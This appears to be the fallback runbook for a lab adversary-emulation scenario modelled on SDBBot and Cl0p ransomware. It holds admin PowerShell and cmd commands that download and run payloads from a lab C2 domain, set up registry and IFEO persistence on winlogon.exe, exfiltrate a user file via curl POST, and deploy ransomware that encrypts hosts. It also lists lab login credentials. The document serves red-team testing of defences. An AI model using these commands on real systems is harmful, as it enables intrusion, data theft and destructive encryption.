 # This is the ALTERNATIVE instruction set for the Scenario

Legend of symbols:

* :bulb: - callout notes
* :heavy_exclamation_mark: - extremely important note
* :arrow_right: - Switching to another session
* :o: - Sign out of something
* :biohazard: - Procedure for a given step

This document provides alternative steps to perform if a particular portion of a step fails to execute.
Due to the nature of the scenario and its components, not every part has a
corresponding alternative
step, and most alternative steps will sacrifice certain parts of the scenario,
in particular the emulated TTPs.

## Step 1 - Persistence

### SDBBot Installer Failed to Write Shellcode Blob to Registry

#### :biohazard: Tier 1 Procedures

* If the SDBBot installer failed to save the shellcode blob to the registry key `HKLM:\SOFTWARE\Microsoft\skw`,
search for PowerShell and right-click to Run As Administrator. Then run the
following commands:

  ```PowerShell
  $blob = (curl http://curse-breaker.org/files/shellcode-blob.bin).Content;
  if (!$blob) {
    Write-Host "[ERROR] Failed to fetch blob for IFEO registry write."
  } else {
    New-Item -Path "HKLM:\SOFTWARE\Microsoft\skw" -Force;
    Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\skw" -Name "d" -Type Binary -Value ([byte[]]$blob);
  }
  ```

### SDBBot Installer Failed to Write Symlink in SYSTEM32

#### :biohazard: Tier 1 Procedures

* If the SDBBot installer failed to create the symlink file
`C:\Windows\System32\msverload.dll` for the loader DLL,
search for PowerShell and right-click to Run As Administrator, or use an
existing Adminstrator PowerShell window if available.
Then run the following commands:

  ```PowerShell
  cmd /c "mklink C:\Windows\System32\msverload.dll C:\Windows\Temp\tmp8AB2.tmp"
  ```

### SDBBot Installer Failed to Set Up Image File Execution Options Injection

#### :biohazard: Tier 1 Procedures

* If the SDBBot installer failed to perform the registry writes to set up Image
File Execution Options Injection for `winlogon.exe`,
search for PowerShell and right-click to Run As Administrator, or use an
existing Adminstrator PowerShell window if available.
Then run the following commands:

  ```PowerShell
  New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\winlogon.exe" -Force;
  New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\winlogon.exe\0" -Force;
  Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\winlogon.exe" -Name "UseFilter" -Value 0x1;
  Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\winlogon.exe\0" -Name "VerifierDlls" -Value "msverload.dll";
  Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\winlogon.exe\0" -Name "GlobalFlag" -Value 0x100;
  Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\winlogon.exe\0" -Name "VerifierFlags" -Value 0x80000000;
  Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\winlogon.exe\0" -Name "FilterFullPath" -Value "C:\Windows\System32\winlogon.exe";
  ```

### SDBBot Installer Failed to Drop Loader DLL to Disk

#### :biohazard: Tier 1 Procedures

* If the SDBBot installer failed to drop the loader DLL to disk at `C:\Windows\Temp\tmp8AB2.tmp`,
search for PowerShell and right-click to Run As Administrator, or use an
existing Adminstrator PowerShell window if available.
Then run the following commands:

  ```PowerShell
  curl http://curse-breaker.org/files/msverload.dll -OutFile C:\Windows\Temp\tmp8AB2.tmp
  ```

### SDBBot Loader DLL Failed to Execute

#### :biohazard: Tier 1 Procedures

* If the SDBBot loader DLL failed to launch or if the image file execution
options injection failed in any other way,
search for PowerShell and right-click to Run As Administrator, or use an
existing Adminstrator PowerShell window if available.
Then run the following commands:

  ```PowerShell
  curl http://curse-breaker.org/files/msverload_alt.dll -OutFile C:\Windows\Temp\msverload_alt.dll
  rundll32.exe C:\Windows\Temp\msverload_alt.dll,entry_point
  ```

* :arrow_right: Return to the Kali attack host corsair (223.246.0.70)
* Confirm C2 registration of the SDBbot RAT

## Step 2 - Command and Control

### Failed to Establish SDBBOT Rat Session

#### :biohazard: Tier 1 Procedures

* :arrow_right: Initiate an RDP session to `diagonalley (10.55.4.21)` (if
not already open)

  | Username | Password |
  | -------- | -------- |
  | encryptpotter.net\griphook | Feral-Studs |

* Search for Command Prompt and right-click to Run As Administrator then copy
and paste all the commands below. Hit enter to run the commands.

  ```cmd
  curl --output "C:\\Windows\\Temp\\rat.dll" http://curse-breaker.org/files/rat.dll
  curl --output "C:\\Windows\\Temp\\rtr.exe" http://curse-breaker.org/files/rat-runner.exe
  C:\Windows\Temp\rtr.exe
  ```

### No SDBBot to execute commands or failed to execute commands via SDBBOT

#### :biohazard: Tier 1 Procedures

* :arrow_right: Initiate an RDP session to `diagonalley (10.55.4.21)` (if
not already open)

  | Username | Password |
  | -------- | -------- |
  | encryptpotter.net\griphook | Feral-Studs |

* Search for Command Prompt and right-click to Run As Administrator then copy
and paste all the commands below. Hit enter to run the commands.

  ```cmd
  whoami /all
  whoami /fqdn
  hostname
  systeminfo
  reg query "HKCU\Control Panel\International\Geo"
  ```

## Step 3 - Discovery and Exfiltration

### No SDBBot to execute commands

#### :biohazard: Tier 1 Procedures

* In the elevated Command Prompt, execute the following command to enumerate a
user directory:

  ```cmd
  dir C:\users
  ```

* Execute the following command to exfiltrate the file:

  ```cmd
  curl -X POST http://curse-breaker.org/uploads -H "filename:Findings_reZGaJ.doc" --data-binary "@C:\Users\griphook\Desktop\Findings_reZGaJ.doc"
  ```

## Step 4 - Defense Evasion and Impact

### Failed to download Cl0p or no SDBBot to download/execute cl0p

#### :biohazard: Tier 1 Procedures

* :arrow_right: Initiate an RDP session to `diagonalley (10.55.4.21)` (if
not already open)

  | Username | Password |
  | -------- | -------- |
  | encryptpotter.net\griphook | Feral-Studs |

* Search for Command Prompt and right-click to Run As Administrator then copy
and paste all the commands below. Hit enter to run the commands.

  ```cmd
  curl --output C:\Windows\System32\SysMonitor.exe http://curse-breaker.org/files/main.exe
  C:\Windows\System32\SysMonitor.exe
  ```

### Cl0p Fails to Execute

#### :biohazard: Tier 1 Procedures

* Open an elevated command prompt and run the following command to download the
alternative Cl0p batch script to `diagonalley (10.55.4.21)`:

  ```cmd
  curl --output C:\Windows\System32\SysMonitor.bat http://curse-breaker.org/files/cl0p.bat
  ```

* Enter the following command to download the minimal Cl0p encryption
executable to `diagonalley (10.55.4.21)`:

  ```cmd
  curl --output C:\Windows\System32\SysMonitor.minimal.exe http://curse-breaker.org/files/minimal.exe
  ```

* Enter the following command to execute the alternative batch script:

  ```cmd
  C:\Windows\System32\SysMonitor.bat C:\Windows\System32\SysMonitor.minimal.exe
  ```

* Verify that the hosts were encrypted by checking the presence of files with
the `.C_I0p` extension and the `Readme!_CI0P!.txt` ransom note in directories.

* Verify activity failure or success by looking at terminal output and at the
`C:\Windows\temp\cl0p.bat.log` log file on affected hosts.

